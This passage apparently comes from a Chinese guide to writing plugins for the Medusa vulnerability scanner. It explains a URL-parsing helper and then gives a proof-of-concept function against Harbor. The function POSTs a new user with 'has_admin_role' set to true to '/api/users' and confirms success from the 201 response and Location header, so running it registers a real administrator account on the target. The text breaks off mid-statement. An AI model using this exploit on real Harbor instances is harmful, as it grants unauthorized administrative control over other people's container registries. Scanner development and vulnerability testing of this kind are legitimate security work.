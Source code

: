 
### UrlProcessing函数

对`url`进行处理

```python
def UrlProcessing(url):
    if url.startswith("http"):#判断是否有http头，如果没有就在下面加入
        res = urllib.parse.urlparse(url)
    else:
        res = urllib.parse.urlparse('http://%s' % url)
    return res.scheme, res.hostname, res.port
```

函数对各个部分进行处理，最终我们只需要取得` scheme` ,` port` , ` hostname` 的值返回给调用函数就行

该函数在`2.7`插件编写规范版本中已写入`ClassCongregation`类中，调用只需要如下操作即可

```python
使用方法一：单独导入
from ClassCongregation import UrlProcessing
scheme, url, port = UrlProcessing().result(Url)
使用方法二：直接导入
import ClassCongregation
scheme, url, port = ClassCongregation.UrlProcessing().result(Url)
```



### medusa函数

```python
def medusa(Url, RandomAgent, ProxyIp=None):
    scheme, url, port = UrlProcessing().result(Url)
    if port is None and scheme == 'https':
        port = 443
    elif port is None and scheme == 'http':
        port = 80
    else:
        port = port
    try:
        payload = '/api/users'
        payload_url = scheme + "://" + url + ":" + str(port) + payload

        headers = {
            'User-Agent': RandomAgent,
            'Accept': 'application/json',
            "Accept-Language": "zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2",
            "Accept-Encoding": "gzip, deflate",
            "Content-Type": "application/json",
        }
        rm = "MedusaTextPoc"+randoms().result(5)  # 获取随机数
        data= {
            "username": rm,
            "email": rm+"@qq.com",
            "realname": rm,
            "password": rm,
            "comment": rm,
            "has_admin_role": True
        }

        data = json.dumps(data)
        resp = requests.post(payload_url,data=data,headers=headers, timeout=6, verify=False)
        head = resp.headers.get("Location")
        code = resp.status_code
        if code == 201 and head.find("/api/users/")!=-1:
            Medusa = "{}存在Harbor任意管理员注册漏洞\r\n 验证数据:\r\n漏洞位置:{}\r\n账号:{}\r\n密码:{}\r\n注册账号数量:{}\r\n".format(url,
```